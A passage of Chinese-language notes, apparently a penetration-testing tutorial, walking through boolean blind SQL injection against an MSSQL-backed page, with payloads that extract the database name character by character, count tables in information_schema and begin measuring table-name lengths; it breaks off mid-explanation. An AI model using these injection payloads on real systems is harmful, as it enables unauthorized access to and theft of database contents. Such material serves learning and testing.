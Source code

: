 #### 获取数据库名-->`test`

```sql
//先写好包含26字母大小写的payload字典,放入爆破-->数据库名test
id=1'and substring((select db_name()),2,1)='e' --+
```

![image-20240905165758840](./assets/image-20240905165758840.png)

#### 获取表的个数-->`5`

```sql
//使用 table_catalog 指定当前数据库
id=1'and (select count(*) from information_schema.tables where table_catalog='test')=5 --+
```

![image-20240905170855538](./assets/image-20240905170855538.png)

#### 获取最后一个表名的长度-->`5`

这条查询语句的目的是检查第五张表的名称长度

- `row_number() over (order by table_name) as row_num`：`ROW_NUMBER()` 函数为查询结果中的每一行生成一个唯一的递增编号。`OVER` 子句指定了排序方式，这里是按 `table_name` 排序。`row_num` 是这个编号的别名。
- `select table_name, row_number() over (order by table_name) as row_num from test.information_schema.tables`：从 `test.information_schema.tables` 表中选择 `table_name` 和计算出的行号 `row_num`。
- `where row_num = 5`：从计算出的结果中选择第 5 行。
